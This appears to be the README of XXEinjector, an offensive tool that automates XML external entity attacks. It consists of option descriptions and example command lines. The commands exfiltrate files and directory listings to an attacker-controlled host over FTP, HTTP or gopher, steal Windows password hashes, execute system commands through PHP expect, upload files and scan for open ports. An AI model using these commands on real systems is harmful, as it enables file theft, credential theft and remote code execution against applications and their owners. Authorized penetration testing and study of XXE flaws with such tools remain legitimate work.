 XXEinjector by Jakub Palaczynski

XXEinjector automates retrieving files using direct and out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

Options:<br />
  --host	Mandatory - our IP address for reverse connections. (--host=192.168.0.2)<br />
  --file	Mandatory - file containing valid HTTP request with xml. You can also mark with "XXEINJECT" a point where DTD should be injected. (--file=/tmp/req.txt)<br />
  --path	Mandatory if enumerating directories - Path to enumerate. (--path=/etc)<br />
  --brute	Mandatory if bruteforcing files - File with paths to bruteforce. (--brute=/tmp/brute.txt)<br />
  --logger	Log results only. Do not send requests. HTTP logger looks for "p" parameter with results.<br />
  
  --rhost	Remote host's IP address or domain name. Use this argument only for requests without Host header. (--rhost=192.168.0.3)<br />
  --rport	Remote host's TCP port. Use this argument only for requests without Host header and for non-default values. (--rport=8080)<br />

  --oob		Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)<br />
  --direct  Use direct exploitation instead of out of band. Unique mark should be specified as a value for this argument. This mark specifies where results of XXE start and end. Specify --xml to see how XML in request file should look like. (--direct=UNIQUEMARK)<br />
  --2ndfile		File containing valid HTTP request used in second order exploitation. (--2ndfile=/tmp/2ndreq.txt)<br />
  --phpfilter		Use PHP filter to base64 encode target file before sending.<br />
  --netdoc    Use netdoc protocol instead of file (Java).<br />
  --enumports		Enumerating unfiltered ports for reverse connection. Specify value "all" to enumerate all TCP ports. (--enumports=21,22,80,443,445)<br />

  --hashes	Steals Windows hash of the user that runs an application.<br />
  --expect	Uses PHP expect extension to execute arbitrary system command. Best works with HTTP and PHP filter. (--expect=ls)<br />
  --upload	Uploads specified file using Java jar schema into temp file. (--upload=/tmp/upload.txt)<br />
  --xslt	Tests for XSLT injection.<br />

  --ssl		Use SSL.<br />
  --proxy	Proxy to use. (--proxy=127.0.0.1:8080)<br />
  --httpport	Set custom HTTP port. (--httpport=80)<br />
  --ftpport	Set custom FTP port. (--ftpport=21)<br />
  --gopherport	Set custom gopher port. (--gopherport=70)<br />
  --jarport	Set custom port for uploading files using jar. (--jarport=1337)<br />
  --xsltport	Set custom port for XSLT injection test. (--xsltport=1337)<br />

  --urlencode	URL encode injected DTD. This is default for URI.<br />
  --nodtd	If you want to put DTD in request by yourself. Specify "--dtd" to show how DTD should look like.<br />
  --output Output file for bruteforcing and logger mode. By default it logs to brute.log in current directory. (--output=/tmp/out.txt)<br />
  --timeout	Timeout for receiving file/directory content. (--timeout=20)<br />
  --contimeout	Timeout for closing connection with server. This is used to prevent DoS condition. (--contimeout=20)<br />
  --fast	Skip asking what to enumerate. Prone to false-positives.<br />
  --verbose	Show verbose messages.<br />

Example usage:<br />
  Enumerating /etc directory in HTTPS application:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl<br />
  Enumerating /etc directory using gopher for OOB method:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher<br />
  Second order exploitation:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt<br />
  Bruteforcing files using HTTP out of band method and netdoc protocol:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc<br />
  Enumerating using direct exploitation:<br />
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK<br />
  Enumerating unfiltered ports:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all<br />
  Stealing Windows hashes:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes<br />
  Uploading files using Java jar:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf<br />
  Executing system commands using PHP expect:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls<br />
  Testing for XSLT injection:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt<br />
  Log requests only:<br />
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt<br />
